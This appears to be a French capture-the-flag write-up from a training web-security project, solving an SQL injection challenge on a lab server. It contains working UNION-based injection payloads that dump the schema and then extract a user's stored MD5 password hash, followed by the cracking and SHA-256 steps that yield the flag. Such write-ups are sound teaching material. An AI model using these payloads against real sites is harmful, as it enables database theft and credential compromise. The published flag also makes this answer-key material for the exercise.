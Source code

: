 # SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Découverte


Sur la page http://10.11.200.198/?page=member on injecte cette ligne de sql \
pour connaitre tous les users ainsi que le nom des tables et des colonnes:
```
1 or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
On peut faire un schéma de la table users:
|¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯|
|   users table    |
|------------------|
| user_id          |
| first_name       |
| last_name        |
| town             |
| country          |
| planet           |
| Commentaire      |
| countersign      |
|__________________|

Un utilisateur semble être interessant:
```
First name: Flag
Surname : GetThe
```
Toujours avec le meme genre d'injection sql on peut extraire les informations \
de cet utilisateur:
```
1 or 1=1 UNION SELECT commentaire, countersign from users WHERE user_id=5
```
commentaire:
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign:
5ff9d0165b4f92b14994e5c685cdce28

countersign est crypté en md5 (merci google), en suivant les instructions du \
commentaire on ce retrouve avec:
5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo -> fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Documentation
- [owasp - sql injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [sqlinjection.net](https://www.sqlinjection.net/category/attacks)

---

[RETURN](https://github.com/jlange91/darkly)
